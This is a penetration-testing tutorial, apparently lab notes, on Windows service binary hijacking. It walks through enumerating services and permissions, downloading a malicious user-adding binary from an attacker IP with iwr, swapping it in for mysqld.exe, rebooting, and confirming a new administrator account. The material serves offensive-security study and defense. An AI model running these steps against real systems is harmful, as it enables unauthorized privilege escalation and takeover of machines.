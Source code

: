 # Service Binary Hijacking

Each Windows service has an associated binary file that is executed on startup. If these binary files aren't properly secured, a user can replace it with malicious code.

For example, a user installs an application and makes it a Windows service but accidentally allows Read Write (RW) permissions for all users. We can replace this application with a malicious binary, and restart the service, or restart the system system and the malicious binary will execute.

***

## Enumerating Services

To get a list of installed Windows services we can choose a variety of different tools. **(Get-Service, Get-Ciminstance, GUI services.msc)**.&#x20;

### Get-Ciminstance

_<mark style="color:red;">**NOTE:**</mark>_ Get-CimInstance and Get-Service will return "Permission denied" if using WinRM. A RDP session will fix this on a non-administrative user.

```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                      State   PathName
----                      -----   --------
Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
AppXSvc                   Running C:\Windows\system32\svchost.exe -k wsappx -p
AudioEndpointBuilder      Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
Audiosrv                  Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
BFE                       Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
BITS                      Running C:\Windows\System32\svchost.exe -k netsvcs -p
BrokerInfrastructure      Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
...
mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
...
```

#### What we're looking for

We're looking for services that are installed in locations other than **C:\Windows\System32.** These applications are **user installed.**  For example**: C:\xampp\\.**

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

### **icacls - Check Permissions of service**

```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

**Here we see the "Users" group has Full access to modify the binary.**&#x20;

## Transfer Malicious Binary - iwr

Our malicious binary creates a new user and adds it to Adminstrators group

```
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
```

## Move Malicious Binary to Service - Move

```
# Move target binary out of directoy.

PS> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

# Move malicious binary & rename to original.

PS> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

## Restart

We'll need to restart the computer since most services are protected by Admistrators.&#x20;

```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

We're able to restart the system.

_**Shutdown:**_

```
PS C:\Users\dave> shutdown /r /t 0 
```

## Verify Exploit

```
PS> Get-LocalGroupMember administrators

User        CLIENTWK220\Admin            Local
User        CLIENTWK220\evil_admin       Local
```

